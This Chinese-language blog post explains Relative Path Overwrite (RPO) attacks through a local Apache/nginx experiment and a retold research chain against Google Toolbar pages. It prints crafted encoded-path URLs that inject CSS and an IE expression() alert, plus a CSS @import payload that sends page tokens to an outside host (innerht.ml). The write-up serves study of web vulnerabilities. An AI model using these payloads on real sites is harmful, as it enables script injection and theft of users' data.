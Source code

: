 ```yaml
---
layout: post
title:  "RPO相对路径覆盖的研究"
categories: 漏洞
tags: 渗透测试 渗透 漏洞
author: 柠枫
---
```




* content
{:toc}








## 什么是RPO

RPO (Relative Path Overwrite)相对路径覆盖，作为一种相对新型的攻击方式,由 Gareth Heyes在2014年首次提出，利用的是nginx服务器、配置错误的Apache服务器和浏览器之间对URL解析出现的差异，并借助文件中包含的相对路径的css或者js造成跨目录读取css或者js，甚至可以将本身不是css或者js的页面当做css或者js解析，从而触发xss等进一步的攻击手段  

## 什么情况会触发

触发这个漏洞有两个基本的前提:

> 1. Apache 配置错误导致AllowEncodedSlashes这个选项开启（对Apache来说默认情况下 AllowEncodedSlashes 这个选项是关闭的），或者nginx服务器  
> 2. 存在相对路径的js或者css的引用  

那么问题来了，为什么Apache不行Nginx可以？  
用的phpstudy 本地部署了apache.php和nginx.php  和一个空的test目录 都是echo相应的服务器名  
![图片1.png](https://i.loli.net/2020/01/24/oCd5gcRNVqYstIk.png)  
我们首先来看看Apache怎么说：  
![图片2.png](https://i.loli.net/2020/01/24/oXGdPVHyL4NimA6.png)  
Apache直接就不认识..%2f 我的天，那接下来看看nginx怎么说吧   
![图片3.png](https://i.loli.net/2020/01/24/LPyurjGITMldo4m.png)  
可以看到nginx吧..%2f当成了../也就是跳转到上一级目录的nginx.php 看起来是这样：127.0.0.1/rpo/nginx.php
所以apache默认是没有这玩意的

## 实验

在rpo目录下创建一个index.php 是这样子的:  

```PHP4
<html>

        <head></head>

        <body>

            <script src="a.js" charset="UTF-8"></script>

        </body>

    </html>

    <?php
	header("Content-type: text/html; charset=gb2312");
    echo "js 在test文件夹中";

?>
```

然后呢 test文件夹中有一个a.js 它只是一个普普通通的弹窗 并没有神马亮点：  
alert(“读取文件成功！”)  
然后我们尝试访问127.0.0.1/rpo/test/..%2findex.php  
![图片4.png](https://i.loli.net/2020/01/24/x2nMchZzVfOe4PC.png)  
果然 他成功弹窗了a.js的内容，那这时候就会有童鞋问了 我直接访问不行吗？  
![图片5.png](https://i.loli.net/2020/01/24/Ef43epuYOI61lMD.png)  
很遗憾并不行 咋肥四呢？这就是相对路径覆盖的魅力了  
我们向服务器提交我们想请求的URL  
[http://localhost/RPO/test/..%2findex.php](http://localhost/RPO/test/..%2findex.php)  
聪明的服务器会把..%2f自动进行URL解码，所以实际上服务器端看到你请求的URL是下面的样子：  
http://localhost/RPO/test/../index.php  
我们知道../ 在URL中会被理解成上一层目录，所以服务器实际上认为你访问的是下面的URL，并把index.php的内容返回给天真的浏览器  
http://localhost/RPO/index.php  
接下来浏览器的工作就是根据URL的路径处理index.php中引用的使用相对地址的脚本，可是万万没想到，浏览器它并不认识..%2f！！！于是URL在它眼里依旧是那可爱的样子：  
http://localhost/RPO/test/..%2findex.php  
此时无知的浏览器已经把..%2findex.php当成了一个文件，可它还是严格按照脚本的要求加载当前目录下的a.js文件，而对它来说现在的当前目录已变成了test，自然而然test（同目录）下的a.js就被成功加载了（同目录下嘛，嘿嘿你懂的！）  
那此时又有小伙伴问了 那我们做不到可控人家网站的js呀！是的 我们是无法直接控制人家服务器的js，但rpo另一个特点是，我们可以将服务器返回的内容按照js脚本的方式解析！而且因为是外部引用js 我们甚至都不需要标签  
这里我就不多赘述，给大家奉上一篇已经过翻译和标注的国外文章，希望各位能加深理解  

## 发现RPO

目前我们可以知道的RPO利用例子是James的PRSSI ，它依赖于CSS解析器容忍在quirks mode中的非法语法（也称为松散解析），所以查找RPO漏洞的第一步就是检查页面的是否有正确的doctype    
我找到一个目标：  
http://www.google.com/tools/toolbar/buttons/apis/howto_guide.html

```html  
<html>  <head>  <title>Google Toolbar API - Guide to Making Custom Buttons</title>  <link href="../../styles.css" rel="stylesheet" type="text/css" />
```

第二步涉及到服务器如何解析路径。对于浏览器来说，目录之间被“/”隔开。对于服务器来说，这并不意味着一定是目录，比如说JSP接收参数时会将“;”后的内容全部视为参数 (e.g. http://example.com/path;/notpath)，这种情况下浏览器只会认为/patn;/notpath依旧是目录  
在目标中我找到可以利用RPO的地方，那里似乎有一个代理处理请求并解码路径中的内容，然后将其发送到真正的服务器。 这允许我们在路径中用％2f替换斜杠:  
http://www.google.com/tools/toolbar/buttons/apis%2fhowto_guide.html  
![图片6.png](https://i.loli.net/2020/01/24/atV8ZkMiE3PdGep.png)  

> Server:  
> **/tools/toolbar/buttons/apis/** howto_guide.html  
> Browser:  
> **/tools/toolbar/buttons/** apis%2fhowto_guide.html   
> Imported stylesheet：   
> **/tools/** style.css   
> （加粗的表示为基本路径）  

现在浏览器认为基本路径是/tools/toolbar/buttons/而不是/tools/toolbar/buttons/apis/，因此对../../style.css的引用会多跳一个目录  
我们还能伪造目录，比如我们想加载的css文件在/tools/fake/styles.css：http://www.google.com/tools/fake/..%2ftoolbar/buttons/apis%2fhowto_guide.html  

> Server：   
> **/tools/ (fake/../抵消) toolbar/buttons/apis/** howto_guide.html   
> Browser：   
> **/tools/fake/..%2ftoolbar/buttons/** apis%2fhowto_guide.html   
> Imported stylesheet：   
> **/tools/fake/**..%2ftoolbar/buttons/../../style.css   

这里我们添加了二个虚拟目录：fake和..%2f，这样在server角度下就互相抵消了，然后浏览器认为fake和..%2ftoolbar为目录。理论上，我们可以在根目录下导入任何样式表（www.google.com/\*/styles.css），不幸的是这个代理只能处理（www.google.com/tools/\*/styles.css），不是tools目录中的css文件就无法导入  
除了按钮Gallery 外都是些静态元素  
http://www.google.com/tools/toolbar/buttons/gallery会重定向到http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1  
按钮Gallery有一个q参数，可以制作RPO的payload：  
http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&q=%0a{}\*{background:red}  
效果如图所示:  
![图片7.png](https://i.loli.net/2020/01/24/qzEIA61wmiQHbC8.png)  
现在要做的就是如何以CSS方式来加载该页面。一种方法就是重定向处理查询字符串，例如，http://www.google.com/tools/toolbar/buttons/gallery?foo=bar会将我们重定向到http://www.google.com/gadgets/directory?synd=toolbar&frontpage=1&foo=bar， 查询的字符串会附加上  
最后一步就是构造查询字符串了：  
http://www.google.com/tools/toolbar/

buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/howto_guide.html  

> Server:   
> **/tools/toolbar/buttons/** (gallery?q=%0a{}\*{background:red}/../抵消) /apis/ howto_guide.html   
> Browser:   
> **/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D/..%2f/apis/** howto_guide.html   
> Imported stylesheet:   
> **/tools/toolbar/buttons%2fgallery%3fq%3d%250a%257B%257D*%257Bbackground%253Ared%257D** /..%2f/apis/../../style.css   
> ⇓   
> /tools/toolbar/buttons/gallery?**q=%0a{}*{background:red}/style.css**   
> ⇓   
> /gadgets/directory?synd=toolbar&frontpage=1&**q=%0a{}*{background:red}/style.css**  

![图片8.png](https://i.loli.net/2020/01/24/VQ1N957F8vmzMtq.png)  

看成功了，满页面都是红色。我们还能使用expression(alert(document.domain))，在IE8可以成功弹窗，但是在IE9却失败了。那是因为谷歌的defense-in-depth防止按钮以css方式加载（X-Content-Type-Options:nosniff 选项来关闭IE的文档类型自动判断功能）  
突然间所有的努力都是徒劳的，因为Google漏洞奖励计划（VRP）规则清楚地表明：In particular, we exclude Internet Explorer prior to version 9  

## Chaining Gadgets

嗯，如果我们使用RPO窃取其他页面上的秘密呢？ CSS的另一个有趣的事情是，在quirks mode下，只要它们在同一个起源，那么松散解析就适用于所有导入的样式表。这样就开启了一个新的可能性，因为我们可以使用Button Gallery作为小工具将https://www.google.com/\*上的任何网页导入为样式表，如果导入的“样式表”包含隐私数据和注入点，我们可以 尝试通过注入CSS魔法来窃取它  

这样的页面要求是：  
> * 注入点需要在隐私数据之前  
> * 注入点需要允许％0a，％0c和％0d中的任何一个，以便可以从错误的状态恢复解析器状态  
> * 隐私数据及其周围不能包含换行符  

我花了些时间找到了符合的页面：http://www.google.com/search?nord=1&**q={}%0a@import”//innerht.ml?**  
首先要注意的是，该页面针对速度进行了优化，因此HTML被压缩过，只有少数换行符。可以看到有一些随机生成的token。 我不知道他们代表什么，但是能够窃取他们应该足以证明这次攻击确实会渗透到数据中。截图中突出显示的部分是css魔术发生的地方：我们使用@import“// innerht.ml？创建import规则，然后直到双引号的所有内容将作为受控URL的一部分使用，最后浏览器会向import“URL”发出请求，我们就可以获取到数据内容  
http://www.google.com/tools/toolbar/

buttons%2fgallery%3fq%3d%250a%257B%257D%2540import%2527%252Fsearch%253Fnord%253D1%2526q%253D%257B%257D

%25250a%2540import%252527%252F%252Finnerht.ml%253F%2522/..%2f/apis/howto_guide.html  

